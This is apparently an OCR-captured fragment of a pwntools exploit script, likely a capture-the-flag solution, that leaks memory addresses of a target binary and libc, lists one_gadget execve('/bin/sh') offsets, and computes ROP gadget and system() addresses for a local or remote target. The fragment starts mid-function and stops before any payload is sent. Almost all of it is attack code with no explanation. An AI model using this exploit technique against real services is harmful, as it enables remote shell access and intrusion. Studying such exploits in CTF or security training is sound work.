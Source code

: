 ```python
    return 0xa

def link():
    x=0
    k=0x100
    for i in range(6):
        x=x+gess(i+1)*k
	#debug()
        k=k*0x100
        log.info(hex(x//0x100))
    print(hex(x//0x100))
    return x//0x100

def elf_link():
    x=0
    k=0x100
    for i in range(6):
        x=x+gess(i+1+8)*k
	#debug()
        k=k*0x100
        log.info(hex(x//0x100))
    print(hex(x//0x100))
    return x//0x100

"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

"""
#while True:
#    try :
if local_mote==1 :
            p=process(elf)
else :
            p=remote(ip_port[0],ip_port[-1])
if True:
        stdout_addr=link()
        #x=finder('_IO_2_1_stdout_',stdout_addr,num=1)
        elf_base=elf_link()-0x25fe
        libc_base=stdout_addr-0x1ec6a0
        system_addr=0x000000000055410+libc_base
        gets_addr= 0x86af0+libc_base
        puts_addr=0x0000000000875a0+libc_base
        rsi_ret=0x0000000000027529+libc_base
        rdi_ret=0x0000000000026b72+libc_base
        
        bin_sh_addr=elf_base+0x4000+0x100
        ret=0x0000000000025679+libc_base
        log.info('bin_sh_addr:'+hex(bin_sh_addr))
        log.info('libc_base'+hex(libc_base))
        log.info('elf_base:'+hex(elf_base))
```